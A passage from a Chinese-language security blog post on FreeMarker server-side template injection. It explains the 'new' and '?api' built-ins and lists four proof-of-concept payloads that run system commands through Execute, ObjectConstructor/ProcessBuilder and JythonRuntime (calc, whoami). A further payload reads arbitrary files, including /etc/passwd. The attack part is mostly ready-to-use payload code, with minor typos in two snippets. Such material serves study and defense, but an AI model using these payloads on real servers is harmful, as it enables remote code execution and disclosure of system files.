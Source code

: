 可以得到对应的结果：

![image.png](https://gitee.com/shine05/myblog-gallery/raw/master/img/56b785b39a4c31cf7725ae6ef6a6558e.png)

### 3.3.2 分析
查看后台的代码，发现触发的位置在：
![image.png](http://moonsec.top/articlepic/e9457fd8e37881e1ae2e65efbe9f1cc7.png)

![image.png](https://gitee.com/shine05/myblog-gallery/raw/master/img/168970c98d3a011e4ab0ffac5e622e4f.png)


### 3.6 FreeMark相关的注入说明
**内置函数**
**new**
可创建任意实现了TemplateModel接口的Java对象，同时还可以触发没有实现 TemplateModel接口的类的静态初始化块。
以下两种常见的FreeMarker模版注入poc就是利用new函数，创建了继承TemplateModel接口的==freemarker.template.utility.JythonRuntime==和==freemarker.template.utility.Execute==。

**API**
value?api 提供对 value 的 API（通常是 Java API）的访问，例如 value?api.someJavaMethod() 或 value?api.someBeanProperty。可通过 getClassLoader获取类加载器从而加载恶意类，或者也可以通过 getResource来实现任意文件读取。
但是，当api_builtin_enabled为true时才可使用api函数，而该配置在2.3.22版本之后默认为false。

**POC1**

```HTML
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("open -a Calculator.app"")}
```


**POC2**

``HTML
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","whoami").start()}
```

**POC3**

```HTML
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")
```

**POC4**

```HTML
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("open -a Calculator.app") }
```

**读取文件
**
```HTML
<#assign is=object?api.class.getResourceAsStream("/Test.class")>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
```